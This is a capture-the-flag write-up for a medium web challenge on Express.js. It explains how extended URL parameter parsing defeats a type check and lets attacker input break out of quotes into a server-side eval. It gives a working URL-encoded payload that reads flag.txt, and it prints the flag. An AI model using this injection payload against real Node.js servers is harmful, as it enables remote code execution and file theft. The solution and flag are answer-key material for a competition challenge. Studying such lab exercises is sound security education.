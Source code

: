 # Title

## Authors

-   @stacksparrow4

## Category

-   Web

## Description

Express for nodejs is all the rage these days. Surely that means it's secure.

`https://extended.ctf.secso.cc/`

NOTE: this should go without saying but do not modify the challenge in any way
that can stop other ctf players from completing it. Such actions will be
punished accordingly.

## Difficulty

-   Medium

## Points

080

## Files

-   [extended.zip](./_ctfd/files/extended.zip): the source code of the challenge

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Express JS defaults to enabling extended url parameters when using the
`express.urlencoded()` middleware. Developers often do not expect this which can
lead to edge cases.

### Walkthrough

1. Looking at the provided source code, we see that our target is to reach the eval statement with malicious input
1. We can control num2 (and num1) however it is verified that num2 is a number which cannot be used maliciously
1. To bypass the check for num2.constructor.name we can utilise exteneded url parameters. Modifying the query string to
   `?num1=1&op=add&num2[constructor][name]=Number` bypasses this check
1. Next we need to figure out how to inject code into the eval. Our object is passed through JSON.stringify into some single quotes
   so we can simply break out of these single quotes to evaluate javascript on the server.
1. The code we want to evaluate is

```javascript
res.send(require("fs").readFileSync("./flag.txt", "utf8"));
```

which will send the flag back to the client. To get this to execute when evaled we can wrap it in a function that calls itself:

```javascript
(function () {
    res.send(require("fs").readFileSync("./flag.txt", "utf8"));
})();
```

Note we must use single quotes as JSON escapes double quotes.

1. To complete the payload we break out of the single quote strings by adding `' + ` and `+ '` and url encode the payload.
   Inserting this payload into a new key of the object will execute the code. This gives us the following
   url as an exploit:
   `http://localhost:3000/math?num1=1&op=add&num2[constructor][name]=Number&num2[a]=%27%2B%28function%20%28%29%20%7Bres%2Esend%28require%28%27fs%27%29%2EreadFileSync%28%27%2E%2Fflag%2Etxt%27%2C%20%27utf8%27%29%29%7D%29%28%29%2B%27`
   Which returns us the flag.

### Flag

`SKYLIGHT{expr3ss_ext3nded$_encodiNg_can_b3_d4Ngerous}`

</details>
